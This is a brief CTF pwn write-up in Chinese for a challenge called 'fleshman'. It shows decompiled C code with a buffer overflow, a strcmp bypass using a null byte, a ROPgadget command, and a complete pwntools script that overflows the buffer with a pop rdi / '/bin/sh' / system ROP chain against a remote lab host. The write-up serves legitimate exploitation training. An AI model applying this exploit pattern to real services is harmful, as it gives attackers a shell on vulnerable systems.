

# fleshman

main函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF
 
  memset(s, 0, sizeof(s));
  init();
  puts("We1c0me t0 SDU! Since y0u are f1esh here,te11 me s0mething ab0ut Y0u:");
  puts("Your name: ");
  read(0, s, 0x20uLL);
  puts("Your ID: ");
  read(0, s, 0x28uLL);
  if ( !strcmp(s, "pwnner") )
  {
    printf("\nNice t0 mEEt y0u %s", s);
    putchar(10);
    vuln();
  }
  getflag();
  return 0;
}
```

strcmp绕过＋构造ROP链


用ROPgadget查找出pop rdi的地址
`ROPgadget --binary 文件路径 --only "pop|ret" | grep rdi`
然后套用rop链的模板
`payload = b'a'*offset +p64(pop_rdi)+ p64(binsh)+p64(call_system)`

exp如下：

```python
from pwn import *
p = remote("10.102.32.142",31698)
p.sendline(b'miyu')
p.sendline(b'pwnner\x00')
offset = 0x70 + 8
binsh = 0x402640
call_system=0x401392
pop_rdi = 0x401513
payload = b'a'*offset +p64(pop_rdi)+ p64(binsh)+p64(call_system)
p.sendlineafter(b'WhAt can Y0u d0....',payload)
p.interactive()
```

得到flag
